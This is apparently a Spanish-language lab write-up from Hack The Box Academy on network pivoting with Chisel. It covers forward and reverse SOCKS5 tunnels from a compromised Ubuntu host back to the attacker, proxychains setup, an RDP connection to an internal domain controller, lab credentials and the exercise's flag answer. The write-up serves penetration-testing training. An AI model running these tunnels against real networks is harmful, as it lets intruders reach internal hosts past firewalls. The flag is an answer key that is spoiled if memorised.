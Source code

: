 Chisel es una herramienta escrita en Go que permite crear túneles TCP/UDP a través de HTTP, cifrados con SSH. 

Consideremos un escenario en el que necesitamos tunelizar nuestro tráfico a un servidor web en la red 172.16.5.0/23 (red interna). Tenemos el controlador de dominio con la dirección 172.16.5.19. Este no es directamente accesible para nuestro host de ataque, ya que este y el controlador de dominio pertenecen a segmentos de red diferentes. Sin embargo, dado que hemos comprometido el servidor Ubuntu, podemos iniciar un servidor Chisel que escuchará en un puerto específico y reenviará nuestro tráfico a la red interna a través del túnel establecido.

Escenario:
- Queremos tunelizar nuestro tráfico a un servidor web ubicado en la red 172.16.5.0/23.

## Instalacion y building de *Chisel*

Nos lo clonamos en la máquina atacante con:

```
Polika4RM@htb[/htb]$ git clone https://github.com/jpillora/chisel.git
```

Necesitaremos tener el lenguaje de programación Go instalado en nuestro sistema para compilar el binario de Chisel. Con Go instalado, podemos acceder a ese directorio y usar go build para compilar el binario de Chisel:

```shell-session
Polika4RM@htb[/htb]$ cd chisel
go build
```

Una vez construido el binario, podemos usar SCP para transferirlo al host pivote del destino.

```
Polika4RM@htb[/htb]$ scp chisel ubuntu@10.129.202.64:~/
 
ubuntu@10.129.202.64's password: 
chisel                                        100%   11MB   1.2MB/s   00:09 
```

## Chisel Server - Máquina Ubuntu (Pivot Host)
Desde la máquina ubuntu (pivot host), podremos pues iniciar el Chisel Server:
```shell-session
ubuntu@WEB01:~$ ./chisel server -v -p 1234 --socks5

2022/05/05 18:16:25 server: Fingerprint Viry7WRyvJIOPveDzSI2piuIvtu9QehWw9TzA3zspac=
2022/05/05 18:16:25 server: Listening on http://0.0.0.0:1234
```

El receptor Chisel detectará las conexiones entrantes en el puerto 1234 mediante SOCKS5 (--socks5) y las reenviará a todas las redes accesibles desde el host pivote. En nuestro caso, el host pivote tiene una interfaz en la red 172.16.5.0/23, lo que nos permitirá conectar con los hosts de esa red.

## Cliente Chisel - Máquina atacante
Podemos iniciar un cliente en nuestro host de ataque y conectarnos al servidor Chisel.
```shell-session
Polika4RM@htb[/htb]$ ./chisel client -v 10.129.202.64:1234 socks

2022/05/05 14:21:18 client: Connecting to ws://10.129.202.64:1234
2022/05/05 14:21:18 client: tun: proxy#127.0.0.1:1080=>socks: Listening
2022/05/05 14:21:18 client: tun: Bound proxies
2022/05/05 14:21:19 client: Handshaking...
2022/05/05 14:21:19 client: Sending config
2022/05/05 14:21:19 client: Connected (Latency 120.170822ms)
2022/05/05 14:21:19 client: tun: SSH connected
```

El cliente Chisel ha creado un túnel TCP/UDP a través de HTTP protegido mediante SSH entre el servidor Chisel y el cliente y ha comenzado a escuchar en el puerto 1080. Ahora podemos modificar nuestro archivo proxychains.conf ubicado en /etc/proxychains.conf y agregar el puerto 1080 al final para que podamos usar proxychains para pivotar usando el túnel creado entre el puerto 1080 y el túnel SSH.

```shell-session
Polika4RM@htb[/htb]$ tail -f /etc/proxychains.conf 

#
#       proxy types: http, socks4, socks5
#        ( auth types supported: "basic"-http  "user/pass"-socks )
#
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
# socks4 	127.0.0.1 9050
socks5 127.0.0.1 1080                <----------

```

Ahora, si usamos proxychains con RDP, podemos conectarnos al DC en la red interna a través del túnel que hemos creado al host Pivot.

```
Polika4RM@htb[/htb]$ proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```

---

### Chisel Reverse Pivot
En el ejemplo anterior, usamos la máquina comprometida (Ubuntu) como nuestro servidor Chisel, con el puerto 1234. Sin embargo, puede haber escenarios donde las reglas del firewall restrinjan las conexiones entrantes a nuestro objetivo comprometido. En tales casos, podemos usar Chisel con la opción "reverse".

Cuando el servidor Chisel tiene habilitada la opción "--reverse", los remotos pueden prefijarse con "R" para indicar que están revertidos. El servidor escuchará y aceptará conexiones, las cuales se redirigirán a través del cliente que especificó el remoto. Los remotos inversos que especifiquen "R:socks" escucharán en el puerto Socks predeterminado del servidor (1080) y finalizarán la conexión en el proxy SOCKS5 interno del cliente.

El pivot abre una conexión saliente hacia tu atacante. Con --reverse le dices al servidor (tu atacante) “abre un puerto local para mí” — todo lo que llegue a ese puerto en tu atacante se envía por el túnel hacia el pivot, y desde el pivot se conecta a la máquina final.

Iniciaremos el servidor en nuestro host de ataque con la opción "--reverse".

### Inicializando el "Chisel Server" en Máquina atacante
```shell-session
Polika4RM@htb[/htb]$ sudo ./chisel server --reverse -v -p 1234 --socks5

2022/05/30 10:19:16 server: Reverse tunnelling enabled
2022/05/30 10:19:16 server: Fingerprint n6UFN6zV4F+MLB8WV3x25557w/gHqMRggEnn15q9xIk=
2022/05/30 10:19:16 server: Listening on http://0.0.0.0:1234
```

Then we connect from the Ubuntu (pivot host) to our attack host, using the option `R:socks`


#### Conectando el Chisel Client de la máquina UBUNTU (Pivot Host)
```shell-session
ubuntu@WEB01$ ./chisel client -v 10.10.14.17:1234 R:socks

2022/05/30 14:19:29 client: Connecting to ws://10.10.14.17:1234
2022/05/30 14:19:29 client: Handshaking...
2022/05/30 14:19:30 client: Sending config
2022/05/30 14:19:30 client: Connected (Latency 117.204196ms)
2022/05/30 14:19:30 client: tun: SSH connected
```

Podemos usar cualquier editor que queramos para editar el archivo proxychains.conf y luego confirmar nuestros cambios de configuración usando tail.

```shell-session
Polika4RM@htb[/htb]$ tail -f /etc/proxychains.conf 

[ProxyList]
# add proxy here ...
# socks4    127.0.0.1 9050
socks5 127.0.0.1 1080 
```

---

**Target: 10.129.150.2**
**SH to  with user "ubuntu" and password "HTB_@cademy_stdnt!"**
**1. Using the concepts taught in this section, connect to the target and establish a SOCKS5 Tunnel that can be used to RDP into the domain controller (172.16.5.19, victor:pass@123). Submit the contents of C:\Users\victor\Documents\flag.txt as the answer.**

Realizado mediante Rpivot porque HTB no actualiza las herramientas de sus propias máquinas. No voy a pelearme con versiones antiguas de python.

Respuesta:
```
Th3$eTunne1$@rent8oring!
```

